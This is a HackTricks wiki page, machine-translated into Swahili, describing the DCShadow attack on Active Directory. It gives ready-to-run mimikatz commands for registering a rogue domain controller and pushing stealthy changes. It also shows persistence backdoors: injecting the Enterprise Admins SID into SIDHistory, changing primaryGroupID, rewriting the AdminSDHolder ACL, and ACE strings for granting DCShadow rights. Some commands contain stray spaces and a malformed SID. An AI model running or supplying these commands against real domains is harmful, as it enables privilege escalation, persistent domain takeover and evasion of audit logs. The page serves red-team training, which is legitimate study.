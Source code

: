{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

Inajisajili **Msimamizi Mpya wa Kikoa** katika AD na kuitumia **kushinikiza sifa** (SIDHistory, SPNs...) kwenye vitu vilivyotajwa **bila** kuacha **kumbukumbu** zozote kuhusu **mabadiliko**. Unahitaji **privileges za DA** na uwe ndani ya **kikoa cha mzizi**.\
Kumbuka kwamba ikiwa utatumia data mbaya, kumbukumbu mbaya sana zitaonekana.

Ili kutekeleza shambulio unahitaji mifano 2 ya mimikatz. Moja yao itaanzisha seva za RPC kwa ruhusa za SYSTEM (lazima uonyeshe hapa mabadiliko unayotaka kutekeleza), na mfano mwingine utatumika kushinikiza thamani:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Inahitaji DA au sawa" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Kumbuka kwamba **`elevate::token`** haitafanya kazi katika `mimikatz1` session kwani hiyo iliongeza haki za thread, lakini tunahitaji kuongeza **haki za mchakato**.\
Unaweza pia kuchagua na "LDAP" kitu: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Unaweza kusukuma mabadiliko kutoka kwa DA au kutoka kwa mtumiaji mwenye ruhusa hizi za chini:

* Katika **kitu cha domain**:
* _DS-Install-Replica_ (Ongeza/ondoa Replica katika Domain)
* _DS-Replication-Manage-Topology_ (Simamisha Topolojia ya Replika)
* _DS-Replication-Synchronize_ (Sawaisha Replika)
* Kitu cha **Sites** (na watoto wake) katika **konteina ya Configuration**:
* _CreateChild and DeleteChild_
* Kitu cha **kompyuta ambacho kimeandikishwa kama DC**:
* _WriteProperty_ (Sio Andika)
* Kitu cha **lengo**:
* _WriteProperty_ (Sio Andika)

Unaweza kutumia [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) kutoa haki hizi kwa mtumiaji asiye na haki (kumbuka kwamba hii itacha baadhi ya kumbukumbu). Hii ni ya kikomo zaidi kuliko kuwa na haki za DA.\
Kwa mfano: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` Hii inamaanisha kwamba jina la mtumiaji _**student1**_ anapokuwa kwenye mashine _**mcorp-student1**_ ana haki za DCShadow juu ya kitu _**root1user**_.

## Kutumia DCShadow kuunda milango ya nyuma

{% code title="Set Enterprise Admins in SIDHistory to a user" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Badilisha PrimaryGroupID (weka mtumiaji kama mwanachama wa Wasimamizi wa Kikoa)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Badilisha ntSecurityDescriptor ya AdminSDHolder (peana Udhibiti Kamili kwa mtumiaji)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Toa DCShadow ruhusa kwa kutumia DCShadow (hakuna kumbukumbu za ruhusa zilizobadilishwa)

Tunahitaji kuongeza ACEs zifuatazo na SID ya mtumiaji wetu mwishoni:

* Kwenye kituo cha eneo:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Kwenye kituo cha kompyuta ya mshambuliaji: `(A;;WP;;;UserSID)`
* Kwenye kituo cha mtumiaji wa lengo: `(A;;WP;;;UserSID)`
* Kwenye kituo cha Tovuti katika kontena ya Mipangilio: `(A;CI;CCDC;;;UserSID)`

Ili kupata ACE ya sasa ya kitu: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Kumbuka kwamba katika kesi hii unahitaji kufanya **mabadiliko kadhaa,** si moja tu. Hivyo, katika **sehemu ya mimikatz1** (server ya RPC) tumia parameter **`/stack` na kila mabadiliko** unayotaka kufanya. Kwa njia hii, utahitaji tu **`/push`** mara moja ili kutekeleza mabadiliko yote yaliyokamatwa kwenye server ya rogue.



[**Taarifa zaidi kuhusu DCShadow katika ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)


{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki hila za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
